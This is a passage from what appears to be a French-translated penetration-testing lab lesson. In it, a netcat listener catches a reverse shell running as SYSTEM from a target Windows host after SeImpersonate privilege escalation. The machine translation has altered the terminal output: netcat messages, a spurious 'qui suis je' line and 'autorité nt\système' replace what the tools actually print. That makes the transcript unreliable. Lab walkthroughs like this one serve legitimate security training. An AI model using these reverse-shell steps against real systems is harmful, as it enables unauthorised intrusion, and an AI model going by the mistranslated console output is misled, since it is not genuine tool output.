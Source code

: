 #### Attraper Reverse Shell en tant que SYSTEM

Si tout se passe comme prévu, nous aurons un shell SYSTEM sur notre écouteur netcat.

Attraper Reverse Shell en tant que SYSTEM

```
dsgsec@htb[/htb]$ nc -lnvp 8443

écoute sur [tout] 8443 ...
se connecter à [10.10.14.3] depuis (INCONNU) [10.129.43.30] 49847
Microsoft Windows [Version10.0.14393]
(c) Microsoft Corporation 2016. Tous les droits sont réservés.

C:\Windows\system32>whoami

qui suis je
autorité nt\système

```

L'augmentation des privilèges en utilisant `SeImpersonate` est très courante. Il est essentiel de se familiariser avec les différentes méthodes qui s'offrent à nous en fonction de la version et du niveau de l'OS de l'hôte cible.